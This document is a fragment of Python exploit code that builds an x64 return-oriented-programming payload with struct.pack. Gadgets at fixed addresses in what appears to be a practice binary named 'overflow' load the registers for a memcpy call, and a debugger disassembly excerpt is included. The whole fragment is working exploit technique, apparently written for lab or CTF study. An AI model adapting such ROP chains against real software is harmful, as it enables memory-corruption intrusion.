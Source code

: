 ```python


#memcpy
#copies memory from src to dst
#On x64, the parameters for memcpy are passed in these registers:

#rcx: Destination address (dst)
#rdx: Source address (src)
#r8: Number of bytes to copy (n)

#################################################################
#memcpy
#################################################################

#r8 gadget setup
payload += struct.pack("<Q", 0x140001b58)  # push rax; pop rbx; pop rsi; pop rdi; ret;  <-- this is what will go into RSI
payload += struct.pack("<Q", 0x444444444)  # junk
payload += struct.pack("<Q", 0x444444444)  # junk

payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001240)  # xor r8d, r8d; mov edx, 2; xor ecx, ecx; call rax; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x1400000AC)  # place 0x1000 on stack
payload += struct.pack("<Q", 0x14000199b)  # js 0x19f8; pop rsi; ret; 
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140001DDA)  # see below for this one

"""
0000000140001DDA | 44:8B00                  | mov r8d,dword ptr ds:[rax]           | rax:EntryPoint
0000000140001DDD | 45:85C0                  | test r8d,r8d                         |
0000000140001DE0 | 74 0D                    | je overflow.140001DEF                |
0000000140001DE2 | 48:8B50 10               | mov rdx,qword ptr ds:[rax+10]        | rdx:EntryPoint
0000000140001DE6 | 48:8B48 08               | mov rcx,qword ptr ds:[rax+8]         |
0000000140001DEA | 49:89F9                  | mov r9,rdi                           | r9:EntryPoint
0000000140001DED | FFD6                     | call rsi                             |
"""

#R8 should now be set to 0x90


#Gadget route for rcx
#====================

payload += struct.pack("<Q", 0x14000276f)  # xor ecx, ecx; mov rax, r9; ret; 
payload += struct.pack("<Q", 0x1400027a0)  # add ecx, ebx; mov rax, r9; ret; 
# RCX should now hold the dest address
#######################################################

#Gadget route for RDX
#######################################################
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x5FFB01)     # 0x5FFBE0 (will have 200 added from edx)
payload += struct.pack("<Q", 0x1400025a6)  # add edx, eax; cmp dword ptr [rdx], 0x4550; je 0x25b8; ret; 
#RDX should now be set


#call memcpy!
payload += struct.pack("<Q", 0x140001f8c)  # pop rax, ret;
payload += struct.pack("<Q", 0x140007D78)  # memcpy (want to jmp to this in the future!)

```